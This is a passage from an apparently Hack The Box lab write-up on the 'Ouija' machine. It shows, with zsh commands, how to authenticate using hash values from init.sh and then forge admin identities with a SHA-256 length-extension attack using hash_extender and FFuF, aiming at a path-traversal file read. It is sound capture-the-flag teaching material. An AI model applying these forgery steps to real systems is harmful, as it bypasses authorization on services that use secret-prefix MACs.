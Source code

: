 {:file="app.js"}

Despite the measures in place to prevent path traversal on the `/file/get`{:.filepath} route, we could still potentially read from the root filesystem using the symlink created in `init.sh`{:.filepath} at `.config/bin/process_informations`{:.filepath}. To access this route however, we must pass the authentication and authorization checks in `ensure_auth`.


#### Authentication

The authentication check fails if the _ihash_ HTTP header doesn't match `sha256(key || identity)` where _identity_ is passed as `base64(hex(identity))` in the _identification_ HTTP header. The valid _ihash_ value for the identity "bot1:bot" in `init.sh`{:.filepath} was used to authenticate.

```zsh
# Auth variables from init.sh
botauth_id="bot1:bot" # identity
hash="[REDACTED]"

# Encode identity
botauth_id_e=$(echo -n $botauth_id | xxd -p | tr -d \\n | base64 -w0)

# Test authentication
curl http://ouija.htb:3000/users -H "ihash: $hash" -H "identification: $botauth_id_e"
# "Insufficient Privileges" -> authenticated, but not authorized
```
{:file="bryan@htb ➤ zsh" .nolineno}

We still did not reach the route's primary functionality because our identity didn't contain the string "::admin:True".


#### SHA-256 Length Extension

Some access controls based on secret-prefix SHA-256 MACs like the mechanism seen in `generate_cookies`/`verify_cookies` can be trivially broken with [**Length extension attacks**](https://en.wikipedia.org/wiki/Length_extension_attack). These attacks are relatively easy to implement [as seen here](https://kerkour.com/sha256-length-extension-attacks), but we'll use hash_extender[^tool-hash_extender] to avoid headache. To use hash_extender, we first had to build it from source with a [minor fix](https://github.com/iagox86/hash_extender/pull/25/commits/62b681af5a86175147de69b473a2a066063461e4) in the Makefile to avoid errors.

```diff
--- Makefile	2024-04-14 10:40:48.892266033 -0500
+++ Makefile	2024-04-14 10:40:48.892266033 -0500
@@ -14 +14 @@
-CFLAGS		:= -std=c89 -g -oS -Wall -Werror -Wno-deprecated
+CFLAGS		:= -std=c89 -g -oS -Wall -Werror -Wno-deprecated-declarations
```
{:file="hash_extender.patch" .nolineno}

Two parallel wordlists were created with the identity and signature for each possible key length because the secret prefix length is unknown. FFuF[^tool-ffuf] was run in pitchfork mode to spray each possible pair until reaching the correct key length.

```zsh
# Generate extended data / signature pairs
./hash_extender -d 'bot1:bot' -s '[REDACTED]' -a '::admin:True' -f sha256 --secret-min 2 --secret-max 64 | tee hash_extender.out

# Separate strings and signatures for further processing
grep "^New signature" hash_extender.out | grep -Eoi '[0-9a-f]{64}$' > ihash.wl

# Separate strings 
for str in $(grep "^New string" hash_extender.out | grep -Eoi '[0-9a-f]+$')
do echo -n $str | base64 -w0; echo
done > id_data.wl

# Find valid pair with pitchfork mode in FFuF
```

[^tool-feroxbuster]: Speedy web content discovery tool - [FeroxBuster](https://github.com/epi052/feroxbuster)
[^tool-katana]: Advanced web crawler - [Katana by ProjectDiscovery](https://github.com/projectdiscovery/katana)
[^tool-ffuf]: Fast multipurpose web fuzzer - [FFuF (Fuzz Faster U Fool)](https://github.com/ffuf/ffuf)
[^software-gitea]: Self-hosted DevOps platform - [Gitea (Git with a cup of tea)](https://about.gitea.com/)
[^software-haproxy]: TCP/HTTP load balancer and proxy - [HAProxy](https://www.haproxy.org/)
[^software-docker]: Platform for deploying and managing containerized applications - [Docker](https://www.docker.com/)
[^software-express]: JavaScript web application framework - [Node.js Express](https://expressjs.com/)
[^tool-hash_extender]: Utility to assist in exploitation of secret-prefix MAC implementations - [Hash Extender by Ron Bowes](https://github.com/iagox86/hash_extender)
[^tool-radare2]: Unix-like reverse engineering framework - [Radare2](https://github.com/radareorg/radare2)